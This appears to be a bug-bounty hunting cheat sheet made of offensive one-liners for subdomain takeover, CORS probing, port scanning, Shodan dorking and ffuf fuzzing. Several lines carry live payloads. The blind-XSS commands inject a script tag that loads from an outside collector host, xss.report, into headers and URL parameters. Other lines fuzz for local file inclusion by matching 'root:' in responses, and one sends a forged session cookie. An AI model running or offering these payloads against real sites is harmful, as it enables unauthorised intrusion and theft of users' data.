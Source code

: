 JS File hunting - part 1
```
cat alljs.txt | nuclei -t /home/coffinxp/nuclei-templates/http/exposures/
```
JS File hunting - part 2
```
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
```
For Checking Subdomain takeover
```
python3 corsy.py -i subdomains_alive.txt -t 10 --headers 'User-Agent: GoogleBot\nCookie: SESSION=Hacked'
```
For finding CORS
```
subfinder -d example.com | gau | bxss -payload ''><script src=https://xss.report/c/coffinxp></script>' -header 'X-Forwarded-For'
```
For testing header based blind xss
```
echo 'example.com ' | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln
```
For checking single xss on all urls
```
subfinder -d example.com | gau | grep '&' | bxss -appendMode -payload ''><script src=https://xss.report/c/coffinxp></script>' -parameters
```
For finding Blind xss
```
echo domain | gau | grep -Eo '(\/[^\/]+)\.(php|asp|aspx|jsp|jsf|cfm|pl|perl|cgi|htm|html)$' | httpx -status-code -mc 200 -content-type | grep -E 'text/html|application/xhtml+xml'
```
Content-type Filter - part 1
```
Ssl.cert.subject.CN:'example.com' 200
```
Shodan dork
```
echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt
```
XSS method - part 1
```
cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt
```
XSS method - part 2
```
naabu -list ip.txt -c 50 -nmap-cli 'nmap -sV -SC' -o naabu-full.txt
```
Naabu scan
```
nmap -p- --min-rate 1000 -T4 -A target.com -oA fullscan
```
Nmap scan
```
masscan -p0-65535 target.com --rate 100000 -oG masscan-results.txt
```
Masscan
```
ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr 'root:'
```
FFUF request file method - part 1
```
ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr '<script>alert('XSS')</script>'
```
FFUF request file method - part 2
```
```